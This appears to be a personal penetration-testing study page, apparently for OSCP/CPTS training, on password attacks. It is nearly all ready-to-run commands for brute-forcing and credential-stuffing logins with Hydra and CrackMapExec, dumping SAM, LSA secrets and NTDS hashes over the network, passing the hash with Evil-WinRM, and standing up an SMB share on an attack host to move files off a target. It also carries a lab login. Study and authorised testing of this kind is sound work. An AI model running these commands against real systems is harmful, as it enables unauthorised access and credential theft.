

repository: amandaguglieri/hackinglife · page: webexploitation/password-attacks/index.html · generator: mkdocs

---
title: Password attacks
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - OSCP
  - CPTS
  - passwords
---
# Password attacks 

## Tools 

- [hashcat](../hashcat.md)
- [john-the-ripper](../john-the-ripper.md)
- [crackmapexec](../crackmapexec.md)
- [hydra](../hydra.md)
- [Username Anarchy](../username-anarchy.md)

## Default credentials in services

https://github.com/ihebski/DefaultCreds-cheat-sheet


## Connecting to Target

```bash 
# CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol
xfreerdp /v:<ip> /u:htb-student /p:HTB_@cademy_stdnt!
```

```powershell 
# Uses Evil-WinRM to establish a Powershell session with a target. 
evil-winrm -i <ip> -u user -p password
```


```powershell 
# Uses SSH to connect to a target using a specified user.
ssh user@<ip>
```

```powershell 
# Uses smbclient to connect to an SMB share using a specified user.
smbclient -U user \\\\<ip>\\SHARENAME
```

```powershell 
# Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.
python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/
```

---
## Password mutations

```bash 
# Uses cewl to generate a wordlist based on keywords present on a website.
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

```bash 
# Uses Hashcat to generate a rule-based word list.
hashcat --force password.list -r custom.rule --stdout > mut_password.list
```

```bash title=""
# Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username. 
./username-anarchy -i /path/to/listoffirstandlastnames.txt
```

```bash title=""
# Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords. 
curl -s https://fileinfo.com/filetypes/compressed \| html2text \| awk '{print tolower($1)}' \| grep "\." \| tee -a compressed_ext.txt
```

---
## Remote Password Attacks

```bash title=""
# Uses CrackMapExec over WinRM to attempt to brute force user names and passwords specified hosted on a target.
crackmapexec winrm <ip> -u user.list -p password.list
```

```bash title=""
# Uses CrackMapExec to enumerate smb shares on a target using a specified set of credentials. 
crackmapexec smb <ip> -u "user" -p "password" --shares
```

```bash title=""
# Uses Hydra in conjunction with a user list and password list to attempt to crack a password over the specified service.
hydra -L user.list -P password.list <service>://<ip>
```

```bash title=""
# Uses Hydra in conjunction with a username and password list to attempt to crack a password over the specified service.
hydra -l username -P password.list <service>://<ip>
```

```bash title=""
# Uses Hydra in conjunction with a user list and password to attempt to crack a password over the specified service.
hydra -L user.list -p password <service>://<ip>  
```

```bash title=""
# Uses Hydra in conjunction with a list of credentials to attempt to login to a target over the specified service. This can be used to attempt a credential stuffing attack.
hydra -C <user_pass.list> ssh://<IP>
```

```bash title=""
# Uses CrackMapExec in conjunction with admin credentials to dump password hashes stored in SAM, over the network. 
crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam
```

```bash title=""
# Uses CrackMapExec in conjunction with admin credentials to dump lsa secrets, over the network. It is possible to get clear-text credentials this way. 
crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa
```

```bash title=""
# Uses CrackMapExec in conjunction with admin credentials to dump hashes from the ntds file over a network. 
crackmapexec smb <ip> -u <username> -p <password> --ntds
```

```bash title=""
# Uses Evil-WinRM to establish a Powershell session with a Windows target using a user and password hash. This is one type of `Pass-The-Hash` attack.
evil-winrm -i <ip>  -u  Administrator -H "<passwordhash>" 
```
